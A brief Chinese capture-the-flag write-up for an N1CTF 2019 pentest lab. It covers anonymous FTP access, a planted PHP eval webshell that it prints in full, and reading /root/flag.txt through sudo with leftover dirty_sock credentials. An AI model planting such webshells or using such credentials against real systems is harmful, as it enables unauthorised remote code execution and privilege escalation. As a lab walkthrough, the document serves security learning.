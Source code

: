 # Pentest N1ctf2019.lab(step1)

這題我們用nmap掃到有開ftp

然後發現可以用 anonymous 登入

登入可以看到 web 目錄下面有 php webshell

```php
Welcome to N1ctf2019.lab!

<?=eval($_REQUEST["enjoy~"]);?>
```

直接能RCE

但是提示說 flag 在 `/root/flag.txt`

可是我們是`www-data`，沒辦法訪問

代表可能要提權成root

然後也發現許多人在嘗試使用 dirty sock 提權

不過實際嘗試許久，都沒成功

後來我發現有一個使用者叫`dirty_sock`

嘗試以`dirty_sock` / `dirty_sock`作為帳號密碼登入

結果竟然成功登入!

(猜測可能是剛好摸到別人打完的結果?)

並且還能sudo:

`sudo cat /root/flag.txt`

=> `N1CTF{ImpOrtant_P0int3_4de0e}`

黑人問號



